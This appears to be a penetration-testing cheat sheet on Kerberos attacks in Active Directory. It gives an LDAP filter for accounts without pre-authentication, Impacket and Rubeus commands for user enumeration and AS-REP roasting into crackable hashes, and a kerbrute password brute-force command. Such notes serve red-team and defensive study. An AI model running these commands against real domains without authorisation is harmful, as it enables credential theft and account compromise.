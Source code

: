 # Kerberos

## Check for valid users

This is useful if you have a list of usernames and do not know which are valid on the domain.  Can also be used to find from a list of valid users which are vulnerable to the more vicious attacks below.

### Using LDAP

```
LDAP: (&(samAccountType=805306368)(userAccountControl:1.2.840.113556.1.4.803:=4194304))
```

LDAP filter for users that do not require Kerberos PREAUTH.  The syntax above `(&(` means a logical AND, where both filters must be true.

### Using [Impacket](https://github.com/SecureAuthCorp/impacket) GetNPUsers.py

Check for valid users (no credentials required)

```bash
python GetNPUsers.py $domain/ -usersfile $users -format $format -outputfile $out_file
```

Check for users without PREAUTH required (credentials required)

```bash
python GetNPUsers.py $domain/$user:$password -request -format $format -outputfile $out_file
```

### Using [Rubeus](https://github.com/GhostPack/Rubeus) with ASREPRoast module

Check ASREPRoast for all users in current domain

```bash
.\Rubeus.exe asreproast  /format:$format /outfile:$out_file
```

{% hint style="info" %}
**`$format`** can be either `[`**`hashcat`**`|`**`john`**`]` for both Impacket and Rubeus
{% endhint %}

## Brute Force

Attempt to validate users and/or passwords through a brute force attack.  Has a high possibility of locking out accounts.  Not recommended.

### With [kerbrute.py](https://github.com/TarlogicSecurity/kerbrute)

```bash
python3 kerbrute.py -domain $domain -users $users_file -passwords $pass_file -outputfile $out_file
```
